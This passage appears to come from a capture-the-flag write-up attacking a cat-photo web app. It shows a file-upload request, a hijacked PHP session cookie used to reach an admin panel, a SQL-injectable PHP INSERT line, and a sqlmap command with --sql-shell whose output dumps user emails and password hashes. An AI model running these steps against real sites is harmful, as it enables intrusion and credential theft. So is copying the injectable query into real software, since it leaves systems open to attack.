 ```python
    files = {
        "cat_photo": (
            filename,
            open("./1x1.png", "rb"),
            "image/png",
        )
    }

    res = ses.post(
        url,
        data=data,
        files=files,
        proxies={"http": "http://0.0.0.0:8081", "https": "https://0.0.0.0:8081"},
    )
```

- PHPSESSID=vkqq3hfpuh9cpqhprfsbi70d3l

We now can access the admin panel where the cats get accepted.

![cat3](/assets/img/cat3.png)

Looking at the php code there seems to be a sqli in it.
```php
// accept_cat.php:10
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
```

Let's use sqlmap because I don't want to write sql.
```bash
sqlmap -r request.txt --risk=3 --batch -p catName --level=5 --dbms=sqlite --sql-shell --threads 10
...
# [*] axel2017@gmail.com, d1bbba3670feb9435c9841e46e60ee2f, 1, axel
# [*] rosamendoza485@gmail.com, ac369922d560f17d6eeb8b2c7dec498c, 2, rosa
# [*] robertcervantes2000@gmail.com, 42846631708f69c00ec0c0a8aa4a92ad, 3, robert
# [*] fabiancarachure2323@gmail.com, 39e153e825c4a3d314a0dc7f7475ddbe, 4, fabian
# [*] jerrysonC343@gmail.com, 781593e060f8d065cd7281c5ec5b4b86, 5, jerryson
# [*] larryP5656@gmail.com, 1b6dce240bbfbc0905a664ad199e18f8, 6, larry
# [*] royer.royer2323@gmail.com, c598f6b844a36fa7836fba0835f1f6, 7, royer
# [*] peterCC456@gmail.com, e41ccefa439fc454f7eadbf1f139ed8a, 8, peter
# [*] angel234g@gmail.com, 24a8ec003ac2e1b3c5953a6f95f8f565, 9, angel
# [*] jobert2020@gmail.com, 88e4dceccd48820cf77b5cf6c08698ad, 10, jobert
```
